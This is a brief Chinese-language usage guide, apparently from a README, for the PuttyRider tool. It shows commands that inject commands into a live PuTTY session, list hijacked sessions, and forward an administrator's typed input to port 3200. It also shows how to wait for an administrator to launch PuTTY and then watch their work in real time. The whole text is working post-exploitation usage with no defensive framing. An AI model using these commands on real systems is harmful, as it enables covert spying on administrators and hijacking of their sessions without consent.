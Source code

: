 1、向当前putty会话注入命令
puttyRider.exe -p 0 -f -c whoami
查看是否注入成功：
puttyRider.exe -l
2、查看管理员输入
puttyrider -p xxx|1136 -r 127.0.0.1:3200
3、监控进程-如果管理员当前没有使用Putty
可以使用-w参数：
puttyrider  -w -r 127.0.0.1:3200
命令执行后，当管理员再次使用putty时，可通过端口3200实时查看其操作。
